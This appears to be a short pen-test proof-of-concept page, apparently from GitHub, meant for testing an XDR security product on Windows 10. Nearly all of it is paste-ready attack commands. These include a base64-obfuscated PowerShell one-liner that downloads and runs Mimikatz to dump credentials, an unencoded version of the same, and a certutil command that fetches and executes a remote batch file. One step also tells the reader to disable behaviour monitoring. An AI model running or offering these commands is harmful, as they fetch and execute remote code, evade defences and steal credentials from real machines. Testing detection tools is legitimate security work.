 # Pen-test proof of concept code 

## converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

## running the encoded command with powershell
powershell.exe -encoded $Encoded

## mimikatz powershell encoded.bat win10 compatible, disable behavior monitoring to test xdr, open admin cmd prompt and paste code below
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsA


## original mimikatz powershell not encode win10 compatible, open admin cmd prompt and paste code below
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m


## test xdr 2, open admin cmd prompt and paste code below
certutil.exe -urlcache -f https://raw.githubusercontent.com/chackco/poc/master/testxdr.bat.txt c:\testxdr.bat && c:\testxdr.bat
